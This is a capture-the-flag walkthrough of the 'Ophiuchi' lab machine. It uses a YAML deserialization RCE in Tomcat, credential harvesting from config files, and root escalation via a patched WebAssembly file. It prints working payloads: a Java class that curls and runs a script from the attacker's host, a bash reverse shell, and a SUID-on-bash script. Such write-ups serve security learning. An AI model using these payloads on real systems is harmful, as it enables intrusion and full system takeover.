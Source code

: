 # Enumeration.

To solve this machine we start with some enumeration ports (open services).

``` bash
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: allPorts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.91 scan initiated Tue Jul  6 13:30:52 2021 as: nmap -p- -sS --min-rate 5000 --open -vvvv -n -Pn -oN allPortss 10.10.10.227
   2   │ Nmap scan report for 10.10.10.227
   3   │ Host is up, received user-set (0.38s latency).
   4   │ Scanned at 2021-07-06 13:30:52 -05 for 182s
   5   │ Not shown: 52455 filtered ports, 13078 closed ports
   6   │ Reason: 52455 no-responses and 13078 resets
   7   │ Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
   8   │ PORT     STATE SERVICE    REASON
   9   │ 22/tcp   open  ssh        syn-ack ttl 63
  10   │ 8080/tcp open  http-proxy syn-ack ttl 63
  11   │ 
  12   │ Read data files from: /usr/bin/../share/nmap
  13   │ # Nmap done at Tue Jul  6 13:33:54 2021 -- 1 IP address (1 host up) scanned in 182.04 seconds
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

This first scan will recognize the open ports. Then we can do the enumeration open services. So lets do it.

``` bash
# Nmap 7.91 scan initiated Tue Jul  6 14:48:13 2021 as: nmap -sC -sV -p22,8080 -oN targeted 10.10.10.227
Nmap scan report for 10.10.10.227
Host is up (0.099s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 14:48:32 2021 -- 1 IP address (1 host up) scanned in 19.32 seconds
```

Before we keep going to the web server. lets do more service enumerations. Lets do some `whatweb` enumeration.

``` bash 
whatweb 10.10.10.227:8080                  
http://10.10.10.227:8080 [200 OK] Cookies[JSESSIONID], Country[RESERVED][ZZ], HttpOnly[JSESSIONID], IP[10.10.10.227], Java, Title[Parse YAML]
```


So now we can go to web server and check what it has. 

![[Pasted image 20210706164527.png]]

Looks like something we can write on, so the first thing coming to my head is RCE(Remote Code Execution). And also, it give us the name of it, and `whatweb` did it too: `YAML`, and its a java.

Searching `YAML explotation` on internet i find an repository from github that looks really interesting. 

![[Pasted image 20210706165356.png]]

It gives a RCE we can try.

I put the code in it and replace it ip with mine, and open a server with python.

![[Pasted image 20210706165706.png]]

And it works, it tries to communicate with my machine to get the file `yaml-payload.jar` but i dont have it. So lets keep reading the github repository and understand what it does.

And after read it, i find out that there is a `.java`.

![[Pasted image 20210706170441.png]]

It put a `run time execution`. Thinking a little bit, we can change those commands that the script have for default, to get some code execution from the machine and then get a reverse shell. Lets explain this a step by step.


First, clone the repository and open the  `.java`. Then change the `java
Runtime.getRuntime().exec(`.

Before.
``` java
public AwesomeScriptEngineFactory() {
try {
Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
} catch (IOException e) {
e.printStackTrace();
}
}
```

After.
``` java
public AwesomeScriptEngineFactory() {
try {
Runtime.getRuntime().exec("curl http://10.10.16.44:8000/shell.sh -o /tmp/shell.sh");
Runtime.getRuntime().exec("bash /tmp/shell.sh");
} catch (IOException e) {
e.printStackTrace();
}
}
```

What i im doing here? im telling him to execute a command so the remote machine will get a file from my machine, the file is a reverse shell made in bash named `shell.sh` that after get it, it will send it to `tmp` where i think, it will have access to execute the file. So the other command is making the remote machine to execute the file `shell.sh`.

``` bash
──────────────────────────────────────────────────────
       │ File: shell.sh
───────┴───────────────────────────────────────────────
   1   │ #!/bin/bash 
   2   │ 
   3   │ bash -i >& /dev/tcp/10.10.16.44/4444 0>&1
───────┴───────────────────────────────────────────────
```

So now we can do the others commands that the repository says, to create the `.jar` that is the file we are sending by the python server. 

``` bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

Now lets open the python server and go back to the web and send the RCE.

What would happen is, when you send the RCE it will run the code and make a connection to local machine, where the `.jar` is and get it, after that it will run and get the `shell.sh` and give us a reverse shell.

![[Pasted image 20210707091556.png]]
![[Pasted image 20210707091636.png]]
![[Pasted image 20210707091652.png]]


# Lateral Movement.

So now we must try to get access with a user with privileges, lets check directories, and there is one interesting at `/opt/tomcat/conf`, actually there are more than one, so for not start looking one by one we can do `cat * | grep password` and get the search easier.

![[Pasted image 20210707094821.png]]

And there it is, some credentials for a user named `admin`.
 Lets use them to get access from `ssh`.
 
 ![[Pasted image 20210707095058.png]]
 
 There you go! we are now the user admin (still not root).
 
 # Privilenge Scalation.
 
 Lets get that root!
 
Now we can try to see if `admin` as some privilege to execute something with root privilege, and look like he can.

![[Pasted image 20210707101039.png]]

Looks like I can exectue a `.go` file lets check what it does.

![[Pasted image 20210707101813.png]]

Checking the code we can see that it exectue an other file named `main.wasm`. But what in the hell is a `.wasm` file.

![[Pasted image 20210707102111.png]]

Is a Webassembly binary code. What that means?

It mean we need to change that `main.wasm` file to get acces to the part in the `.go` script to get in the if condition that execute an other script named `deploy.sh`. 

![[Pasted image 20210707105057.png]]

But how do we do that?

First, lets give us the `main.wasm` to our local machine so we can manipulate it.

![[Pasted image 20210707105708.png]]
![[Pasted image 20210707105720.png]]

Now after knowing it is a webassembly, there is a way to convert that bynary to a readable file, you can convert from `.wasm` to `.wat`.

Lets find a tool to do that, there are a lot of them on internet, choose the one you want.

![[Pasted image 20210707105908.png]]

Im gonna use this one. Lets upload our file.

![[Pasted image 20210707111619.png]]

There are a lot of crazy info, but not hard, or if you just put some logic you see there is a constant variable `i32.const 0)` and the `.go` its get in the condition cause 0 its different to 1, so lets change that constant f variable to an 1.

After that just copy the script and go to a wat2wasm tool to create the new `.wasm` file.

![[Pasted image 20210707112607.png]]

Download and send it back to the ophiuchi machine.

But, you must create a temporary directory where you gonna put the new `main.wasm`and the new `deploy.sh` this second one will be a script to give us privilege.

![[Pasted image 20210707113521.png]]

``` bash
#!/bin/bash
chmod u+s /bin/bash
```

Then lets execute the command that we can made with root privilege.

![[Pasted image 20210707113619.png]]